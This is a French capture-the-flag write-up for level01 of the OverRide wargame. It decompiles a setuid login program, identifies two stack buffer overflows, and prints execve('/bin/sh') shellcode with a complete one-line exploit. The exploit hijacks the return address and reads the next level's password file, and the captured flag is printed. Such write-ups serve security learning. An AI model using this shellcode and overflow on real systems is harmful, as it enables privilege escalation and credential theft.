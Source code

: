 # OverRide : [level01]

### Observation :
En arrivant sur le level01 on trouve un exécutable nommé level01.\
Quand nous essayons de le lancer cela nous demande un login, puis nous refuse l'accès. \
Regardons donc avec gdb ou un decompilateur.

---

#### Source décompilée:
```c
char a_user_name[100]; // idb

//----- (08048464) --------------------------------------------------------
_BOOL4 verify_user_name()
{
  puts("verifying username....\n");
  return memcmp(a_user_name, "dat_wil", 7u) != 0;
}

//----- (080484A3) --------------------------------------------------------
_BOOL4 __cdecl verify_user_pass(const void *a1)
{
  return memcmp(a1, "admin", 5u) != 0;
}

//----- (080484D0) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[64]; // [esp+1Ch] [ebp-4Ch] BYREF
  _BOOL4 v5; // [esp+5Ch] [ebp-Ch]

  memset(s, 0, sizeof(s));
  v5 = 0;
  puts("********* ADMIN LOGIN PROMPT *********");
  printf("Enter Username: ");
  fgets(a_user_name, 256, stdin);
  v5 = verify_user_name();
  if ( v5 )
  {
    puts("nope, incorrect username...\n");
  }
  else
  {
    puts("Enter Password: ");
    fgets(s, 100, stdin);
    v5 = verify_user_pass(s);
    puts("nope, incorrect password...\n");
  }
  return 1;
}
```

#### Détails du programme:
```bash
-rwsr-s---+ 1 level02 users   7360 Sep 10  2016 level01
```

#### Fonctions:

| Nom | Description |
| --- | ----------- |
| `<main>` | Notre fonction main nous demande dans un premier temps de lui donner un nom d'utilisateur (stdin de 256 octets) puis appel la fonction `<verify_user_name>`, si le retour est bon, il nous demande un password (stdin de 100 octets) puis appel la fonction `<verify_user_pass>`, ensuite dans tous les cas, il retourne la chaîne `"nope, incorrect password...\n"`.|
| `<verify_user_name>` | Cette fonction vas juste vérifier si notre `stdin` est égal à: `"dat_wil"` (uniquement 7 octets, cela ne compare donc pas le `\0`)|
| `<verify_user_pass>` | cette fonction est similaire a `<verify_user_name>` sauf que cette fois si elle compare notre `stdin` à: `"admin"` (uniquement 5 octets, cela ne compare donc pas le `\0`).|


#### Conclusions:
Nous avons un programme qui a potentiellement 2 buffer overflow, un pour chaque `stdin`. \
Nous n'avons pas de moyen normal d'accéder a un shell dans le programme donc nous allons devoir injecter un `shellcode`. \


----
Résolution:
----
Nous allons devoir injecter notre `shellcode` ou nous trouvons de la place, par exemple dans le premier `stdin` juste après la chaîne de 7 octets: `"dat_wil"`. \
Nous devons aussi `jump` depuis la valeur de `return` sur notre `shellcode` grâce au 2eme overflow de `stdin`. 

Pour se faire:
- Nous allons donc écrire dans le premier `stdin` la chaîne `"dat_wil"` pour passer la première condition, puis mettre notre `shellcode` pour accéder au shell plus tard. 
- Ensuite, nous devons remplir le reste de notre `stdin` avec des octets random (ou mettre un \n). 
- Nous allons par la suite trouver l'adresse de retour afin de pouvoir la modifier, pour jump sur notre shellcode qui se trouve à l'adresse du premier `buffer de stdin (+7 pour la chaîne de caractères "dat_wil")`.
- En regardant dans gdb on se rend compte que notre adresse de retour se trouve à `+79 octets` en partant de notre second `buffer (stdin)`, c'est là qu'il faut écrire l'adresse ou se trouve notre `shellcode` pour qu'il soit executer.



#### Injection:
```asm
# SHELLCODE
# La fonction injectée appelle <system> avec '/bin/sh' en paramètre:

0:  6a 0b                   	push   0xb
2:  58                      	pop    eax
3:  31 f6                   	xor    esi,esi
5:  56                      	push   esi
6:  68 2f 2f 73 68          	push   0x68732f2f
b:  68 2f 62 69 6e          	push   0x6e69622f
10: 89 e3                   	mov    ebx,esp
12: 31 c9                   	xor    ecx,ecx
14: 89 ca                   	mov    edx,ecx
16: cd 80                   	int    0x80
```
#### Commande:
```bash
(python -c "print ('dat_wil\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + 'a' * (256 - 24 - 7) + 'b'*(79) + '\x08\x04\xa0\x47'[::-1])"; ec
ho 'cat /home/users/level02/.pass') | /home/users/level01/level01

```

**Flag :** PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
